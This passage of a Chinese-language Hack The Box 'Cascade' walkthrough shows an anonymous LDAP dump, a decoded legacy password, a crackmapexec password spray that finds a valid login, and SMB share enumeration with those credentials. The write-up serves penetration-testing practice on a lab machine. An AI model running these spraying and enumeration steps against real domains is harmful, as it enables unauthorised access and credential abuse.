 把ldap枚举信息全部转存到ldap.txt
```
ldapsearch -x -H ldap://10.10.10.182 -D '' -w '' -b "DC=cascade,DC=local" >ldap.txt
```

ldap.txt找到一个密码
```
userPrincipalName: r.thompson@cascade.local
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=cascade,DC=local
dSCorePropagationData: 20200126183918.0Z
dSCorePropagationData: 20200119174753.0Z
dSCorePropagationData: 20200119174719.0Z
dSCorePropagationData: 20200119174508.0Z
dSCorePropagationData: 16010101000000.0Z
lastLogonTimestamp: 132294360317419816
msDS-SupportedEncryptionTypes: 0
cascadeLegacyPwd: clk0bjVldmE=
```

留意：
```
cascadeLegacyPwd: clk0bjVldmE=
```

```clk0bjVldmE=```经过base64decode以后是```rY4n5eva```

利用上面收集到用户名单哈希喷洒

```
┌──(root💀kali)-[~/htb/Cascade]
└─# crackmapexec smb 10.10.10.182  -u user.txt -p 'rY4n5eva'   
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\CascGuest:rY4n5eva STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\arksvc:rY4n5eva STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\s.smith:rY4n5eva STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\r.thompson:rY4n5eva 
```

 

使用新凭据查看smb服务
```
┌──(root💀kali)-[~/htb/Cascade]
└─# smbmap -u "r.thompson" -p "rY4n5eva" -H 10.10.10.182
[+] IP: 10.10.10.182:445        Name: 10.10.10.182                                      
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        Audit$                                                  NO ACCESS
        C$                                                      NO ACCESS       Default share
        Data                                                    READ ONLY
        IPC$                                                    NO ACCESS       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        print$                                                  READ ONLY       Printer Drivers
        SYSVOL                                                  READ ONLY       Logon server share 
